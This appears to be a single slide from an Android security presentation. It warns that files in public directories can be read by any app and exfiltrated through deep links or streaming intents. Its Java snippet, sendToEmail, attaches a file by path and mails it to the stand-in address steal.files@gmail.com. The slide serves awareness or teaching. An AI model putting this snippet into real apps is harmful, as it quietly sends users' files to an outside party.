

# Files Stored in Public Directories
“Use the directories within internal storage to save sensitive information that other apps shouldn't access.”
All applications can access those files on the mobile device

Deep links can be used to exfiltrate specific files

Files can be uploaded via streaming intents

private void sendToEmail(String folder_name, String file_name) {
        try {
            Intent intent = new Intent(Intent.ACTION_SENDTO);
            intent.setType("text/plain");
            intent.putExtra(Intent.EXTRA_SUBJECT, "Subject");
            intent.putExtra(Intent.EXTRA_STREAM, Uri.parse( "file:///" + folder_name + file_name));
            intent.setData(Uri.parse("mailto:steal.files@gmail.com"));
            intent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
            startActivity(intent);
        } catch(Exception e)  {
            System.out.println("Email did not send because " + e);
        }
}